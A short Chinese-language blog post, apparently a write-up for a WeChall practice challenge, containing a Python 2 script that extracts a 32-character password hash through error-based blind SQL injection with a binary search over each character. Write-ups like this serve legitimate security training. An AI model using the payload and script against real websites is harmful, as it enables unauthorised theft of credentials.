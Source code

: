 ```yaml
---
title: Are your blind
author: rk700
layout: post
tags:
  - sql
  - wechall
---
```

[http://www.wechall.net/challenge/Mawekl/are\_you\_blind/index.php][1]  
这道题还是盲注，32位的hash，128次跑完。这里我们用报错的方法来判断

下面是python代码

{% highlight python %}
#!/usr/bin/env python2

import urllib
import urllib2

def makePayload(statement):
    return "' or if(substring(password,%d,1)%s'%s',3,(select 1 union select 2))=3-- " % (statement[0], statement[1], statement[2])
    
def checkResponse(response):
    return response.find("Database error") == -1

def doAssert(statement):
    url = "http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php"
    values = {'injection':makePayload(statement),'inject':'Inject'}
    data = urllib.urlencode(values)
    req = urllib2.Request(url, data)
    req.add_header('cookie','WC=7374566-11403-7iblKzppaCoukyl1')
    response = urllib2.urlopen(req)
    content = response.read()

    return checkResponse(content)
 
if __name__ == "__main__":
    alphalist = "0123456789ABCDEF"
    result = []
    for idx in range(1,33):
        start = 0
        end = 16 #[start, end)
        while (start < end):
            #print("[%d, %d)" % (start, end))
            if (end - start == 1):
                result.append(alphalist[start])
                print alphalist[start]
                break
            else:
                middle = (start + end)/2
                if(doAssert([idx, '<', alphalist[middle]])):
                    end = middle
                else:
                    start = middle
    print ''.join(result)
{% endhighlight %}

 [1]: http://www.wechall.net/challenge/Mawekl/are_you_blind/index.php